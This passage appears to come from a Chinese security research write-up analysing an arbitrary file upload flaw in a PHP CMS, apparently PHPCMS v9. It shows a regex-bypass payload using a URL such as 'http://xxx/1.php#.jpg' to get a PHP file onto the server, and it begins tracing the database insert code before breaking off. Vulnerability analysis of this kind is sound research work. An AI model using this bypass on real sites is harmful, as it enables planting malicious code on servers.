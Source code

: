 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKoblkL5FTAjamDSv3fsEVOut4Diacug9yBJR46mOBR6UrUh86fHQjlSibrQ/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKobC6eHFY6yF202TxTWE4haUHljoPRxbFbHnP42RbUYCDCCjYVBAKRu0A/640?wx_fmt=png&from=appmsg "null")  
  
那这样是不是要想可以上传php恶意文件到服务器呢？  
  
那我们就要思考怎么绕过正则，理清思路：现在只要url绕过正则达到上传php文件，就可以了  
```
modelid=11&info[content]='url'(href|src)=([\"|']?)([^ \"'>]+\.(gif|jpg|jpeg|bmp|png))\2
```  
  
这个正则只验证了后缀，再前面的的fillurl函数中检测url中是否存在#，若存在就取#号前的部分  
```
http://xxx/1.php#.jpghttp://xxx/1.php
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKob7ib9V6vWbVfrL712k1mtshEklg03PLhJah7S7kEkCgalbCk6P3EDeug/640?wx_fmt=png&from=appmsg "null")  
  
  
且在正则中绕过成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKob2p92CatVXYA0iaIMUl1raeloBEaic9z6YriaibjgkrQfaF4OERUs1oUxHw/640?wx_fmt=png&from=appmsg "null")  
  
  
测试，确实可以访问获取1.php文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKobk5dZb9xib4lLka2AG2N8PAZYZravKP1u4aGiapP6Yb2dwOnc4awu9o3Q/640?wx_fmt=png&from=appmsg "null")  
  
## 难点：  
  
**php文件可上传到服务器，但是不返回路径**  
  
在上传完文件后会将$user_model_info，插入到数据库中，就是我们info[content]  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKobtqZhAicBxEvfgz3PiadnOJzaPn2rholjb8Z4yLhOj4opytX6GesrAMRA/640?wx_fmt=png&from=appmsg "null")  
  
跟进！！！  
  
将data，和table进行了传入，而此时数据库中的表变成了v9_member_detail，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrRWkUsXwDH51mJ7tv9gKob4BVtwmVj75HrRDkicxt29qclcGXIY533yjoNHUE6bXvCBZhIPOqS2Vg/640?wx_fmt=png&from=appmsg "null")  
```
public function insert($data, $table, $return_insert_id = false, $replace = false) {
        if(!is_array( $data ) || $table == '' || count($data) == 0) {
            return false;
        }
        $fielddata = array_keys($data);
        $valuedata = array_values($data);
        array_walk($fielddata, array($this, 'add_special_char'));
        array_walk($valuedata, array($this, 'escape_string'));
        $field = implode (',', $fielddata);
        $value = implode (',', $valuedata);
        $cmd = $replace ? 'REPLACE INTO' : 'INSERT INTO';
        $sql = $cmd.' `'.$this->config['database'].'`.`'.$table.'`('.$field.') VALUES ('.$value.')';
        $return = $this->execute($sql);
        return $return_insert_id ? $this->insert_id() : $return;
    }
```  
  